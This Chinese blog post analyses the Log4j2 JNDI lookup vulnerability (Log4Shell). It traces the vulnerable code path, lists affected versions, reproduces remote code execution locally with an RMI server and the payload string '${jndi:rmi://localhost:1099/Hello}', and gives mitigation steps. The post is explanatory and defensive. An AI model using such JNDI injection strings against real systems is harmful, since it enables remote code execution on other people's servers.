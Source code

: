 ```yaml
---
title: 深入分析Log4j 漏洞
date: 2021/12/27 22:22:10
toc: true
categories:
- 安全
tags:
- 深入分析Log4j
- 日志
---
```

几乎每个系统都会使用日志框架，用于记录日志信息，这些信息可以提供程序运行的上下文，但是日志过多也会影响系统的性能，所以好的日志框架应该是可靠，快速和可扩展的。

Apache Log4j2 是一个基于 Java 的日志工具，是Log4j的升级版本，引入了很多丰富的特性，包括高性能，低垃圾收集，插件系统等。目前很多互联网公司以及耳熟能详的公司的系统或者开源框架都在使用Log4j2。

<!-- more --> 

2021.12.7，Log4j首次被发现了一个非常严重的漏洞，在当天Log4j就发布了`log4j-2.15.0-rc1`，但是12.9那天被发现这个版本仍然可以触发漏洞。简单点说，**黑客可以恶意构造特殊数据请求包payload触发漏洞，从而可以在目标服务器上执行任意代码，导致服务器被黑客控制**，被定性为“过去十年来最大、最关键的漏洞”。

**根据目前统计，90%以上基于java开发的应用平台都会受到影响**。那么这篇文章就会深入分析这个漏洞究竟是怎么产生的以及怎么修复它。

## 1. Log4j简介
Apache Log4j 是一个基于[Java](https://zh.wikipedia.org/wiki/Java)的日志记录工具。它是由Ceki Gülcü首创的，现在已经发展为[Apache软件基金会](https://zh.wikipedia.org/wiki/Apache软件基金会)的项目之一。 

 经过多年的开发迭代，Log4j 1.x的维护已经变得非常困难，因为它需要与非常旧的 Java 版本兼容，所以于 2015 年 8 月正式升级为Log4j2。

## 2. Log4j的lookup功能

本次漏洞是因为Log4j2组件中 lookup功能的实现类 `JndiLookup` 的设计缺陷导致，这个类存在于`log4j-core-xxx.jar`中。

![lo77lI](https://image.ldbmcs.com/lo77lI.jpg)

log4j的[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)功能可以快速打印包括运行应用容器的docker属性，环境变量，日志事件，Java应用程序环境信息等内容。比如我们打印Java运行时版本：

```java
public class VulnerabilityTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {
        LOGGER.error("Test:{}","${java:runtime}");
    }
}
```

输出：

```java
20:20:21.312 [main] ERROR com.ldbmcs.VulnerabilityTest - OpenJDK Runtime Environment (build 11.0.11+9) from AdoptOpenJDK
```

**那么`JndiLookup`到底有什么设计缺陷导致出现的史诗级漏洞呢？**

我们首先把目标放在`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`:

```java
public void format(final LogEvent event, final StringBuilder toAppendTo) {
        Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {
            boolean doRender = this.textRenderer != null;
            StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;
            int offset = workingBuilder.length();
            if (msg instanceof MultiFormatStringBuilderFormattable) {
                ((MultiFormatStringBuilderFormattable)msg).formatTo(this.formats, workingBuilder);
            } else {
                ((StringBuilderFormattable)msg).formatTo(workingBuilder);
            }

            if (this.config != null && !this.noLookups) {
                for(int i = offset; i < workingBuilder.length() - 1; ++i) {
                    if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                        String value = workingBuilder.substring(offset, workingBuilder.length());
                        workingBuilder.setLength(offset);
                        workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
                    }
                }
            }
						 ...
        } else {
						...
        }
    }
```

我们传入的message会通过`MessagePatternConverter.format()`，判断如果`config`存在并且`noLookups`为false（默认为false），然后匹配到`${`则通过`getStrSubstitutor()`替换原有的字符串，比如这里的`${java:runtime}`。

因为这里没有任何的白名单，那么我们就可以构造任何的字符串，只有符合`${`就可以。

继续往下走，来到`org.apache.logging.log4j.core.lookup.Interpolator#lookup`

![dy4svJ](https://image.ldbmcs.com/dy4svJ.png)

我们可以看到处理event的时候根据前缀选择对应的`StrLookup`进行处理，目前支持date，jndi，java，main等多种类型，如果构造的event是jndi，则通过`JndiLoopup`进行处理，从而构造漏洞。

## 3. Log4j 漏洞

受影响的版本：

2.0-beta9 <= Apache Log4j <= 2.15.0-rc1

> **Log4j 1.x**不受此漏洞影响。

受影响的框架或者组件：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

## 4. Log4j 漏洞复现

我们以[RMI](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi/hello/hello-world.html)服务为例复现Log4j的漏洞，RMI是远程方法调用(Remote Method Invocation)，能够让A电脑的java虚拟机上的对象调用B电脑的java 虚拟机中的对象上的方法。但是客户端并不是直接调用服务器上的方法的，而是会借助**存根 (stub)** 充当我们客户端的代理，来访问服务端，同时**骨架 (Skeleton)** 是另一个代理，它与真实对象一起在服务端上，骨架将接受到的请求交给服务器来处理，服务器处理完成之后将结果进行打包发送至存根 ，然后存根将结果进行解包之后的结果发送给客户端。

RMI包括三个部分：

- Registry：提供服务注册与服务获取。即Server端向Registry注册服务，Client端从Registry获取远程对象的一些信息，如地址、端口等，然后进行远程调用。
- Server： 远程方法的提供者，并向Registry注册自身提供的服务。
- Client:：远程方法的消费者，从Registry获取远程方法的相关信息并且调用。

![OKveDJ](https://image.ldbmcs.com/OKveDJ.jpg)

创建`Server`类：

```java
public class RMIServer {
    public static void main(String[] args) {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(new Reference("com.ldbmcs.rmi.RmiExecute", "com.ldbmcs.rmi.RmiExecute", null));
            registry.bind("Hello", referenceWrapper);
        } catch (Exception e) {
            System.out.println("Server Exception: " + e);
            e.printStackTrace();
        }
    }
}
```

创建对象：

```java
public class RmiExecute {
    static {
        System.out.println("Hello, World");
    }
}
```

接着，我们在测试类`VulnerabilityTest`中修改代码如下：

```java
public class VulnerabilityTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {
        String test = "${jndi:rmi://localhost:1099/Hello}";
        LOGGER.error("Test:{}", test);
    }
}
```

分别启动`RMIServer`和`VulnerabilityTest`，我们可以看到在`VulnerabilityTest`中打印出：

```java
Hello, World
```

也就是说，我们可以在目标服务器中执行任意代码，影响不言而喻。

那么怎么解决呢？

## 5. Log4j 漏洞修复

1. 设置jvm参数：`-Dlog4j2.formatMsgNoLookups=true`
2. 设置系统环境变量：`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`
3. 升级版本：[官方](https://logging.apache.org/log4j/2.x/download.html)，最新的版本仅支持java, ldap, 和 ldaps，同时默认禁用JNDI等等功能去限制利用构造payload去触发漏洞。
   - Java 8及之后的版本升级到 v2.16.0。
   - Java 7 升级到 v2.12.2。
   - 其他版本，删除`JndiLookup`类：`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`